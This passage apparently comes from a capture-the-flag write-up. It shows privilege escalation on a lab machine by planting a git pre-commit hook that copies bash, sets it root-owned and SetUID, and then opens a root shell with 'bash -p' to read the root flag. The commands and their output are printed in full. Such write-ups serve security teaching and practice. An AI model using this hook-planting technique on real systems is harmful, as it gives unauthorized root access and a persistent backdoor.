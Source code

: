 

By default, it has a bunch of `.sample` files:



    dev01@opensource:~/.git/hooks$ ls
    applypatch-msg.sample  fsmonitor-watchman.sample  pre-applypatch.sample  prepare-commit-msg.sample  pre-rebase.sample   update.sample
    commit-msg.sample      post-update.sample         pre-commit.sample      pre-push.sample            pre-receive.sample



Hooks will skip over any file ending in `.sample`. Other than that, they
can be whatever kind of script I want them to be.

I'll write a short script that copies `bash` into `/tmp/0xdf`, makes
sure it's owned by root, and then sets it to SetUID so it runs as root:



    dev01@opensource:~/.git/hooks$ echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/0xdf'
    #!/bin/bash

    cp /bin/bash /tmp/0xdf
    chown root:root /tmp/0xdf
    chmod 4777 /tmp/0xdf
    dev01@opensource:~/.git/hooks$ echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/0xdf' > pre-commit
    dev01@opensource:~/.git/hooks$ chmod +x pre-commit



I save this as `pre-commit`, so the next time someone tries to commit,
it will run. I'll also need to set that file as executable.

After the next minute, `/tmp/0xdf` is there, and a SetUID binary owned
by root:



    dev01@opensource:~/.git/hooks$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1113504 Sep 30 13:45 /tmp/0xdf



Running with `-p` (to tell Bash not to drop privs) returns a root shell
(effective uid is root):



    dev01@opensource:~/.git/hooks$ /tmp/0xdf -p
    0xdf-4.4# id
    uid=1000(dev01) gid=1000(dev01) euid=0(root) groups=1000(dev01)



And I can read `root.txt`:



    0xdf-4.4# cat /root/root.txt
    07bae31e************************







